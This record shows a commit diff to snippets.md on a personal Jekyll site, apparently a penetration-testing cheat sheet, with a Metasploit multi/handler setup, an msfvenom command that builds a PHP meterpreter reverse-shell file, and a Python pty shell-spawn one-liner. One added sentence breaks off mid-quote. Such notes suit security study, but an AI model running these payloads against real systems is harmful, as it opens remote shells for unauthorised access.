

Before and after one commit to a56z/a56z.github.io, a Jekyll site: the page built from snippets.md, in a window 1280 px wide. Shown: the top 626 px of the page, without its empty margins (308-971 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings.

Commit message:
Update snippets.md

````diff
--- a/snippets.md
+++ b/snippets.md
@@ -6,6 +6,29 @@ permalink: /snippets
 
 ### Metasploit
 
+#### Handlers
+
 ```bash
-msfvenom -l
+msf6 > use exploit/multi/handler
+msf6 > set PAYLOAD <Payload name>
+msf6 > set LHOST <LHOST value>
+msf6 > set LPORT <LPORT value>
+msf6 > set ExitOnSession false
+msf6 > exploit -j -z
 ```
+Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r
+
+#### Scripting Payloads
+
+###### PHP
+```bash
+msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
+```
+
+
+### Python
+
+##### spawn a terminal
+```python
+python -c 'import pty;pty.spawn("/bin/bash")';
+```
````
